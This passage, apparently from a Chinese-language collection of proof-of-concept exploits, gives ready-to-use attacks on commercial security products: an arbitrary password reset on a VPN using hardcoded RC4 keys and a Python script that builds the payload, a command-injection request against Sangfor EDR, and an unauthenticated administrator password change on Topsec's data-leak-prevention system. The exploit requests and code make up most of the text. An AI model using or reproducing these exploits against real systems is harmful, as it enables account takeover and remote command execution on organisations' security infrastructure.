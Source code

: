 - **任意密码重置**
    - POC | Payload | exp
        ```
        某VPN加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
        利用:需要登录账号

        M7.6.6R1版本key为20181118

        M7.6.1key为20100720

        POST /por/changepwd.csp

        sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
        ```
        ```py
        from Crypto.Cipher import ARC4
        from binascii import a2b_hex

        def myRC4(data, key):
            rc41= ARC4.new(key)
            encrypted =rc41.encrypt(data)
            return encrypted. encode('hex')

        def rc4_decrpt_hex(data, key):
            rc41= ARC4. new(key)
            return rc41. decrypt(a2b_hex(data))

        key= '20100720'
        data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
        print myRC4(data, key)
        ```

---

# 终端响应与检测

## EDR

**深信服 EDR**
- **2020.08命令执行**
    - 相关文章
        - [深信服终端检测响应平台 EDR 代码审计](https://www.sqlsec.com/2020/08/edr.html)
    - POC | Payload | exp
        - [A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)

- **2020.09命令执行**
    - POC | Payload | exp
        ```
        POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
        {"params":"w=123\"'1234123'\"|命令"}
        ```

---

## 数据防泄漏系统

**天融信数据防泄漏系统**
- **越权修改管理员密码**
    ```
    无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

    POST /?module=auth_user&action=mod_edit_pwd

    Cookie: username=superman;
    uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
    ```
